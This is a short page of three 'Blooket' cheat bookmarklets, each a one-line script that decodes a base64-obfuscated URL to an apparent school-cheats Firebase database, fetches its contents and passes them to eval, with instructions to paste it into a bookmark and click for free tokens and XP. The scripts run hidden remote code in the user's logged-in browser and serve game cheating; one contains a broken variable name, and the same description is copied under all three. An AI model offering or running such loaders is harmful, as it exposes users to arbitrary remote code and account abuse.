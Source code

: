 # Blooket  
infinatetokens.js:

fetch(atob('aHR0cHM6Ly9zY2hvb2wtY2hlYXRzLTFhNGVlLWRlZmF1bHQtcnRkYi5maXJlYmFzZWlvLmNvbS9nbG9iYWxBZGRUb2tlbnMuanNvbg==')).then(res => res.text()).then(t => eval(JSON.parse(t)));

Just copy and paste into a bookmark for blooket marketplace and then click for 9999 daily tokens and 500XP.

.
..
Allblooksingame.js

fetch(atob('aHR0cHM6Ly9zY2hvb2wtY2hlYXRzLTFhNGVlLWRlZmF1bHQtcnRkYi5maXJlYmFzZWlvLmNvbS9nbG9iYWxHZXRBbGxCbG9va3MuanNvbg==')).then(res => keep.text()).then(t => eval(JSON.parse(t)));

Just copy and paste into a bookmark for blooket marketplace and then click for 9999 daily tokens and 500XP.

.
..
Everyawnsercorrect.js

fetch(atob('aHR0cHM6Ly9zY2hvb2wtY2hlYXRzLTFhNGVlLWRlZmF1bHQtcnRkYi5maXJlYmFzZWlvLmNvbS9nbG9iYWxFdmVyeUFuc3dlckNvcnJlY3QuanNvbg==')).then(res => res.text()).then(t => eval(JSON.parse(t)));

Just copy and paste into a bookmark for blooket marketplace and then click for 9999 daily tokens and 500XP.
